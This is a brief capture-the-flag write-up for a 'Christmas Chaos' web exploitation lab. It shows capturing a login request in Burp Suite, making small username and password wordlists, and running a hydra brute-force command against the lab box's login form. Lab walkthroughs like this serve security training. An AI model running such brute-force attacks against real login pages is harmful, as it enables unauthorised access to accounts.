



# [Day 3] Web Exploitation Christmas Chaos 

Open up the IP of the box in your browser.



Try to login with any username and password and capture the post request.
E.g in Burp Suite 





Create two wordlists:

One for the usernames

```
# username.txt
admin
user
root
```

And one for the passwords

```
# password.txt
password
admin
12345
```

Let hydra crack the login form for you

```
sudo hydra -L username.txt -P passwords.txt 10.10.217.210 http-post-form "/login:username=^USER^&password=^PASS^:Your username is incorrect.."
```

Finlly login with the dicovered credentials


